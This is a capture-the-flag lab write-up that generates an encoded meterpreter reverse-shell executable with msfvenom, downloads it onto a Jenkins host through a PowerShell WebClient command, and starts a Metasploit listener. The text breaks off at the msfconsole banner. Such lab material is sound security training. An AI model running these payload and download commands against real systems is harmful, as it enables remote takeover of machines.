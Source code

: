 In this section we'll see how to leverage **meterpreter** to aid our privilege escalation attempts.

In this section there is not much to add, as the room really provides almost all you need to answer the only question asked:

> Question: What is the final size of the exe payload that you generated?

Ok so we'll be using **msfvenom** to generate a payload.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

We need to replace **[IP], [PORT] and [SHELL NAME]**

For the sake of simplicity we'll bake this payload on the same **Shells** folder where we started our local server already.

In my case the final **msfvenom** command looks like this:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.0.34 LPORT=6555 -f exe -o payload.exe
```

After running that command we get the following back:

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.0.34 LPORT=6555 -f exe -o payload.exe
[sudo] password for kali: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: {ANSWER} bytes
Saved as: payload.exe
```
The rest of the plan follows the same approach we already did for  [Part 1]. We'll create a new PowerShell command to be added to the Jenkins job but this time we don't need the PS script as we'll be using the **payload.exe** that we just generated so the command varies a bit.

In my case that command would look like this:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.0.34:8000/payload.exe','payload.exe')"
```

We'll also need to setup a **multi handler** in **Metasploit** to listen for our **payload.exe** reverse shell connection.

In our terminal let's start **msfconsole** to fire up **Metasploit** and create our listener.

```bash
$ msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
```